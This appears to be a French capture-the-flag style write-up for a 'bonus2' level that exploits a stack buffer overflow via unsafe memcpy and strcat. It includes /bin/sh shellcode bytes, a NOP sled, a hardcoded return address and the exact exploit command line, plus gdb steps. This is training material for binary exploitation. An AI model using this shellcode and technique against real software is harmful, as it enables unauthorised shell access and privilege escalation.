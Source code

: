 "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

Offset 23

set args $(python -c 'print 40*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print 23*"A" + "\x08\xf8\xff\xbf"')

(gdb) find /b $esp, +1000, 0x6a, 0x0b, 0x58, 0x99, 0x52, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x31, 0xc9, 0xcd, 0x80


# bonus2 - Buffer Overflow avec Variables d'Environnement

## Analyse du Programme

**Structure**
- Prend deux arguments en ligne de commande
- Utilise une variable d'environnement LANG
- Contient une fonction greetuser() qui affiche différents messages selon la langue

**Buffers**
- s : Premier buffer pour argv[1]
- var_38 : Buffer pour argv[2]
- str : Buffer dans greetuser()

## Vulnérabilités

**Buffer Overflow dans greetuser()**
- strcat(str, &str) tente de concaténer une zone mémoire au-delà du buffer str
- Cette zone contient les données copiées depuis var_38

**Copie de Mémoire Non Sécurisée**
```c
memcpy(&s[76], var_38, 76);
```
- Copie 76 bytes à partir de la fin du buffer s
- Permet d'écrire au-delà des limites du buffer

## Exploitation

**Construction du Payload**
```python
# Premier argument : shellcode + padding
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
arg1 = "\x90" * 40 + shellcode

# Second argument : padding + adresse de retour
arg2 = "A" * 23 + "\x08\xf8\xff\xbf"
```

**Commande d'Exploitation**
```bash
./bonus2 $(python -c 'print 40*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print 23*"A" + "\x08\xf8\xff\xbf"')
```

## Processus d'Exploitation

1. Le premier argument contient :
   - Des NOPs comme zone d'atterrissage
   - Le shellcode qui exécute /bin/sh

2. Le second argument contient :
   - Un padding de 23 bytes
   - L'adresse de retour pointant vers notre shellcode

3. La fonction greetuser() :
   - Tente de concaténer la zone mémoire corrompue
   - Provoque un débordement de buffer
   - Redirige l'exécution vers notre shellcode

4. Le shellcode est exécuté, donnant accès à un shell

